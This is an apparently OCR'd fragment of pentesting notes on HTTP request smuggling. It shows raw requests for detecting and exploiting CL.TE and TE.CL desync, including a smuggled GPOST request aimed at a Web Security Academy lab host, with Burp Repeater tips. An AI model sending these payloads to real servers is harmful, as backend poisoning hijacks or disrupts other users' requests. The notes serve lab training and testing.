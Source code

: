 If TE.CL
```html
POST /about HTTP/1.1
Host: example.com
Transfer-Encoding: chunked
Content-Length: 6

0

X


```
- ALWAYS test for CL.TE first if we do TE.CL and the server is CL.TE this will poison the backend and potentially harming legitimate users.
- Disable in Burp > Repeater > Update Content-Length
Exploiting

If CL.TE
```html
POST /about HTTP/1.1
Host: example.com
Transfer-Encoding: chunked
Content-Length: 6

0

X


```

- to exploit replace X with :
```html
GET /404 HTTP/1.1
X`
```

IF TE.CL
```html
POST / HTTP/1.1
Host: your-lab-id.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-length: 4
Transfer-Encoding: chunked

5c
GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0


```
